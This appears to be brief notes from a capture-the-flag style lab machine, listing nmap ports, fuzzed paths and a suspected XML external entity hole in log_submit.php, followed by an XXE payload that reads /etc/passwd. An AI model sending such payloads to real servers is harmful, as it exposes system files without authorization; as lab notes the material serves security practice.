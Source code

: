 start with nmap


22
80

***

fuff

/resources
/index.php
/http://10.10.11.100/log_submit.php # may be xxe here

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<!DOCTYPE reset [
		<!ENTITY ignite SYSTEM "file:///etc/passwd">
		]>
		<bugreport>
		<title>$ignite</title>
		<cwe>2021-224433</cwe>
		<cvss>4.5</cvss>
		<reward>100</reward>
		</bugreport>
```